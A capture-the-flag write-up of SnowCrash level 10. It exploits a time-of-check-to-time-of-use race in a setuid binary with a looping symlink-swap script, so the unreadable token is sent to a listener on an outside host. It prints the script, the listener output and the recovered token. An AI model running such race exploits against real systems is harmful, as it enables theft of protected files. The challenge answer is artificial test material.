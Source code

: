 In level 10, we once again have an executable and a token file that we can't read

```bash
level10@SnowCrash:~$ ./level10 
./level10 file host
	sends file to host if you have access to it

level10@SnowCrash:~$ ./level10 token localhost
You don't have access to token
```

level10 program is used to send a file to which we have access to an host, so shouldn't really help for the token file as we don't have access to it

when using `strings -d level 10`, we see the following lines

```
%s file host
	sends file to host if you have access to it
Connecting to %s:6969 .. 
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file .. 
Damn. Unable to open file
Unable to read from file: %s
wrote file!
You don't have access to %s
```

which means that the program tries to connect on port 6969

```bash
level10@SnowCrash:~$ ./level10 /tmp/test localhost
Connecting to localhost:6969 .. Unable to connect to host localhost
level10@SnowCrash:~$ ./level10 /tmp/test 192.168.56.102
Connecting to 192.168.56.102:6969 .. Unable to connect to host 192.168.56.102
```

we develop a small program in python in order to have a server listening on port 6969
We test it with a file /tmp/test2 that contains lol and from out vm we use the command
```bash
level10@SnowCrash:~$ ./level10 /tmp/test2 192.168.56.1
Connecting to 192.168.56.1:6969 .. Connected!
Sending file .. wrote file!
```

so the file is wrote and sent, and with our server program, we receive the message
```bash
resources git:(main) ✗ python simple_server.py
Server listening on port 6969
Message received: .*( )*.

Message received: lol
```

So we can receive the content of a file, now we need to find a way to send the content of token while we don't have access to the file

using nm, we can see that the program use access, most likely to check that we have access to the file we are trying to send before opening it.
As a result, the program might be susceptible to a tocttou attack : https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use

We can for instance create a file that we own, and after the check, replace it by a symlink to the tocken file
For that we create the following script in /tmp/exploit.sh
```bash
#!/bin/sh 
while [ true ]; do 
rm /tmp/test; 
echo "trying" > /tmp/test 
/home/user/level10/level10 /tmp/test 192.168.56.1 &
ln -s -f /home/user/level10/token /tmp/test & 
done
```
this script will run an infinite loop that will remove our owned file /tmp/test, recreate it containing trying
and then will in parallel execute the level10 program on the /tmp/test file
and create a symbolic link to the token file in /tmp/test

then we let our script run (bash /tmp/exploit.sh) and after some time on our server program:
```
resources git:(main) ✗ python simple_server.py
Server listening on port 6969
Message received: .*( )*.
trying

Message received: .*( )*.
trying

Message received: .*( )*.
trying

Message received: .*( )*.
trying

Message received: .*( )*.
trying

Message received: .*( )*.
trying

Message received: .*( )*.
trying

Message received: .*( )*.
trying

Message received: .*( )*.
trying

Message received: .*( )*.
trying

Message received: .*( )*.
trying

Message received: .*( )*.
trying

Message received: .*( )*.
trying

Message received: .*( )*.
trying

Message received: .*( )*.
trying

Message received: .*( )*.
trying

Message received: .*( )*.
trying

Message received: .*( )*.
trying

Message received: .*( )*.
trying

Message received: .*( )*.
trying

Message received: .*( )*.
trying

Message received: .*( )*.
trying

Message received: .*( )*.
trying

Message received: .*( )*.
trying

Message received: .*( )*.
trying

Message received: .*( )*.
trying

Message received: .*( )*.
trying

Message received: woupa2yuojeeaaed06riuj63c
``` 

we finally manage to receive the token !!!
we now only have to connect and get our flag with the getflag program